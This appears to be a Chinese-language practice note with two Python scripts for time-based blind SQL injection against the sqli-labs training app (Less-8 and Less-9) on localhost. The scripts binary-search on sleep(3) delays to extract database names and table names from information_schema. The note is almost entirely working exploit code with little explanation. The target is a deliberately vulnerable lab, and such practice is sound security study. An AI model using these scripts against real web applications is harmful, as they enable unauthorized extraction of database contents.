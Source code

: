 获取数据库名

```python
import requests
import time

ans = ''
for i in range(1,15):
    print('*'*15,i,'*'*15)
    min = 30
    max = 128
    
    while min != max:
        mid = (min+max)//2
        start_time = time.time()
        url = "http://localhost/sqli-labs/Less-8/?id=1'"\
        f" and if(ord(substr((select group_concat(schema_name) from information_schema.schemata),{i},1))>{mid},sleep(3),1) %23"
        print('[*]:',url)
        res = requests.get(url).text
        if min == max - 1:
            break

        if time.time()-start_time > 3:
            min = mid # [mid,max]
        else:
            max = mid # [min,mid]
    ans += chr(max)
print(ans)
```



获取表名 --- 自测没问题

```python
import requests
import time

ans = ''
for i in range(1,15):
    print("*"*15,i,"*"*15)
    min = 32
    max = 128

    while min != max:
        mid = (min+max)//2
        start_time = time.time()
        url = "http://localhost/sqli-labs/Less-9/?id=1'"\
             f" and if(ord(substr((select group_concat(table_name) from information_schema.tables where table_schema='answers'),{i},1))>{mid},sleep(3),1) %23"
        res = requests.get(url).text
        if min+1 == max:
            break
        
        if time.time()-start_time > 3:
            min = mid #[mid,max]
        else:
            max = mid # [min,mid]
    ans += chr(max)
print(ans)
```
